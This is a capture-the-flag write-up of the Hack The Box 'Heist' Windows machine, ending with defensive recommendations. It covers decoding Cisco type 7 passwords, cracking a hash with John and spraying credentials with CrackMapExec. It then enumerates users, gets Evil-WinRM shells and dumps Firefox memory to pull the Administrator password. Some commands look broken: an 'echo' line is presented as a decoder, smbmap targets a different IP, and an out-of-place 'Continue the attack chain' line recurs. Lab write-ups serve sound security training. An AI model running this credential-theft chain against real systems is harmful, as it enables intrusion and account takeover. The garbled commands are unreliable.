# HTB - Heist

**IP Address:** `10.10.10.149`  
**OS:** Windows  
**Difficulty:** Easy  
**Tags:** #SMB, #WinRM, #Cisco, #PasswordCracking, #FirefoxDump  

---
## Synopsis

Heist is an easy Windows machine that demonstrates credential harvesting from Cisco configuration files, brute-force attempts with CrackMapExec, enumeration of domain users via Impacket’s `lookupsid.py`, and process dumping with Sysinternals ProcDump to extract sensitive information from memory. The attack path culminates in obtaining valid administrator credentials from a Firefox memory dump.

---
## Skills Required

- Basic Windows enumeration  
- Familiarity with SMB/WinRM authentication  
- Understanding of Cisco password types  
- Knowledge of process dumping techniques  

## Skills Learned

- Decoding Cisco type 7 passwords  
- Using Impacket’s `lookupsid.py` to enumerate domain users  
- Extracting passwords from memory dumps  
- Lateral movement using valid credentials  

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:


```bash
ping -c 1 10.10.10.149
```


The host responds, confirming it is reachable.

---
### 1.2 Port Scanning

Scan all TCP ports to identify open services:


```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.149 -oG allPorts
```

- `-p-`: Scan all 65,535 ports  
- `--open`: Show only open ports  
- `-sS`: SYN scan  
- `--min-rate 5000`: Increase speed  
- `-Pn`: Skip host discovery (already confirmed alive)  
- `-oG`: Output in grepable format



Extract open ports:

```bash
extractPorts allPorts
```



---
### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:


```bash
nmap -p80,135,445,5985,49669 -sC -sV 10.10.10.149 -oN targeted
```

- `-sC`: Run default NSE scripts  
- `-sV`: Detect service versions  
- `-oN`: Output in human-readable format  



**Findings:**

| Port  | Service  | Description                                |
|-------|----------|--------------------------------------------|
| 80    | HTTP     | Microsoft IIS 10.0                         |
| 135   | MS RPC   | Microsoft RPC endpoint mapper              |
| 445   | SMB      | Windows SMB file sharing                   |
| 5985  | WinRM    | Windows Remote Management (HTTP)           |
| 49669 | MS RPC   | Microsoft RPC dynamic port                 |

The target is running **IIS 10.0**, with **SMB** and **WinRM** exposed.

---
## 2. Service Enumeration

### 2.1 WhatWeb Analysis

Continue the attack chain with the next commands:


```bash
whatweb http://10.10.10.149
```



The site redirects to a `login.php` page.



### 2.2 Guest Access

The application allows guest login. Confirm the login surface responds before pulling attachments:

```bash
curl -s -o /dev/null -w "%{http_code}\n" http://10.10.10.149/login.php
```



We see potential usernames:

- **Hazard**  
- **Support Admin**

A Cisco router configuration is attached:



---
## 3. Foothold

### 3.1 Cisco Type 7 Passwords

The config file shows Cisco type 7 passwords:

- `rout3r // 7 0242114B0E143F015F5D1E161713`  
- `admin  // 7 02375012182C1A1D751618034F36415408`  

Using an [online decoder](https://www.ifm.net.nz/cookbooks/passwordcracker.html) for Cisco type 7 strings, or a local equivalent:

```bash
echo "0242114B0E143F015F5D1E161713"
```




Decrypted:

- **rout3r** → `$uperP@ssword`  
- **admin** → `Q4)sJu\Y8qz*A3?d`  



We store them for later testing.

### 3.2 Extracted Hash

The file also contains a crypt password hash suitable for offline cracking:

```bash
$1$pdQG$o8nrSzsGXeaduXrjlvKc91
```

Cracked with John:

```bash
john -w:$(locate rockyou.txt | tail -n 1) hash.txt
```



Recovered password: **stealth1agent**



### 3.3 CrackMapExec Attempts

We combine users and passwords:

```bash
crackmapexec smb 10.10.10.149 -u users.txt -p passwds.txt --continue-on-success
```



User **Hazard** is valid with password `stealth1agent`.


```bash
crackmapexec winrm 10.10.10.149 -u 'hazard' -p 'stealth1agent'
```



The account does not belong to the **Remote Management Users** group, so we cannot use WinRM at this stage.  
Next, we attempt to enumerate resources with `rpcclient` and `smbmap`:

```bash
rpcclient -U "hazard%stealth1agent" 10.10.10.149 -c 'enumdomusers'
smbmap -H 10.10.11.174 -u 'hazard%stealth1agent'
```



No useful information is retrieved.  

### 3.4 Domain Enumeration

To continue, we use **Impacket’s `lookupsid.py`**, which allows enumeration of domain accounts when valid credentials are available. With the following details:

- **Username**
- **Password**
- **Domain**
- **Target IP**

We can list all users on the system:

```bash
lookupsid.py SUPPORTDESK/hazard:stealth1agent@10.10.10.149
```



We discover additional users and update our wordlist:  


Continue the attack chain with the next commands:



### 3.5 Credential Spraying

Spray updated domain users against the recovered password material:

```bash
crackmapexec smb 10.10.10.149 -u users.txt -p passwds.txt --continue-on-success
```



New valid user: **Chase**

Check WinRM access:

```bash
crackmapexec winrm 10.10.10.149 -u 'Chase' -p 'Q4)sJu\Y8qz*A3?d'
```



Access confirmed.

### 3.6 Evil-WinRM Access

Open a **WinRM** session using the confirmed **Chase** credentials:

```bash
evil-winrm -i 10.10.10.149 -u 'Chase' -p 'Q4)sJu\Y8qz*A3?d'
```



🏁 **User flag obtained**

### 3.7 Privilege Enumeration

Inspect the session token, groups, and privilege constants:

```bash
whoami /all
```



No exploitable privileges found.

---
## 4. Privilege Escalation

### 4.1 Process Enumeration

List processes to spot suspicious long-lived applications (e.g. browsers):

```bash
ps
```



Suspiciously high number of Firefox processes.

```bash
ps | findstr firefox
```



### 4.2 Dumping Firefox Process

Upload Sysinternals ProcDump:

```bash
upload /home/kali/Documents/Machines/Heist/content/procdump64.exe
```



Dump Firefox process:

```bash
.\procdump64.exe -accepteula -ma 6356
```



Download the dump:

Continue the attack chain with the next commands:


```bash
C:\Users\Chase\Desktop> download firefox.exe_250823_183228.dmp firefox.dmp
```

### 4.3 Extracting Credentials

Search `password` on dump file:

```bash
strings firefox.dmp | grep password
```



Recovered credentials:

- **Administrator** → `4dD!5}x/re8]FBuZ`

### 4.4 Administrator Access

Validate credentials:

```bash
crackmapexec smb 10.10.10.149 -u 'Administrator' -p '4dD!5}x/re8]FBuZ'
```



Obtain shell:

```bash
evil-winrm -i 10.10.10.149 -u 'Administrator' -p '4dD!5}x/re8]FBuZ'
```



🏁 **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **Web Enumeration** → Found Cisco configuration file with encoded credentials.  
2. **Cisco Type 7 Password Cracking** → Retrieved plaintext credentials.  
3. **Password Cracking (John)** → Recovered `stealth1agent`.  
4. **SMB & User Enumeration** → Valid users `Hazard` and `Chase`.  
5. **Evil-WinRM Foothold** → Logged in as `Chase`.  
6. **ProcDump Analysis** → Extracted Firefox process memory.  
7. **Credential Extraction** → Found Administrator password.  
8. **Privilege Escalation** → Logged in as Administrator.  

---
## Defensive Recommendations

- Avoid storing Cisco type 7 passwords, as they are trivially reversible.  
- Enforce strong and unique passwords across systems.  
- Limit access to sensitive configuration files.  
- Monitor processes for abnormal behavior (e.g., excessive Firefox instances).  
- Regularly audit credentials stored in memory and implement credential guard solutions.  
